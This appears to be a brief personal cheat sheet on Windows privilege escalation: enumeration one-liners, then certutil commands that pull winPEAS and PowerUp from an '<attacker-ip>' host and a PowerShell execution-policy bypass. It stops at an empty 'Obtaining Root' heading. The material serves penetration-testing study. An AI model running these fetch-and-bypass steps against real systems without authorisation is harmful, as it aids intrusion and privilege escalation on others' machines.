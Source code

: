 # Common PrivEsc Methods

Here are some things I do for windows privesc.

## Identifying Privesc Vector

First, (after some basic one-liners) I like installing a `PowerUP` *AND* `winPEAS`. Using these tools will help us find the attack vector `80%` of the time.

### One-Liners

These one-liners will catch a good amount of privesc vectors:

- `whoami /priv` == See your users privs.
- `Get-LocalUser` **OR** `net user` == See all local users.
- `Get-LocalGroup` **OR** `net group` == See all local groups.
- `Get-LocalGroupMember <juicygroup>` **OR** `net localgroup <juicygroup>`== See members that are apart of a certain group.

### winPEAS

winPEAS is great to find some loot and privesc. Make sure to read fine print.

```cmd
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winPEAS.exe
```

### PowerUP

PowerUp has some awesome utility. Check their official documentation for more info. To run all checks do the following:

```cmd
$ certutil -urlcache -split -f http://<attacker-ip>/PowerUp.ps1 PowerUp.ps1
$ powershell -ep bypass
$ .\PowerUp.ps1; Invoke-AllChecks
```

## Obtaining Root
